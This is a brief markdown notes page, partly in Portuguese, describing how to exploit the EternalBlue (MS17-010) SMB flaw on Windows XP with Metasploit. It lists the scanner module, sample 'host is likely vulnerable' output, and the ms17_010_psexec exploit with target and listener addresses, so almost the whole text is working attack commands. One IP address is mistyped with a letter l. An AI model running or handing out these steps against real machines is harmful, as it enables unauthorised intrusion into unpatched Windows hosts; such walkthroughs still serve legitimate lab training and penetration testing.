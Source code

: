 ```yaml
---
title: Exploitation - Eternal Blue ( WinXP )
category: post
---
```


EternalBlue WindowsXP
-----------------------




### Enter msfconsole and search vuln

		msfconsole

		search eternalblue

OR

		search ms17-010

---

### Primeiramente Verificamos se a maquina de destino eh um Windows XP Vuln

		use auxiliary/scanner/smb/smb_ms17_010

		set RHOST 10.l0.1.4

		exploit

Se tudo der certo, obtemos uma resposta parecida com o seguinte:

		[+] 10.l0.1.4:445      - Host is likely VULNERABLE to MS17-010! - Windows 5.1
		[*] 10.l0.1.4:445      - Scanned 1 of 1 hosts (100% complete)
		[*] Auxiliary module execution completed

---

## Agora Vamos Explorar a maquina que identificamos que esta vulneravel


		back

		use exploit/windows/smb/ms17_010_psexec

		set RHOST 10.l0.1.4

		set LHOST 10.l0.1.2

		run
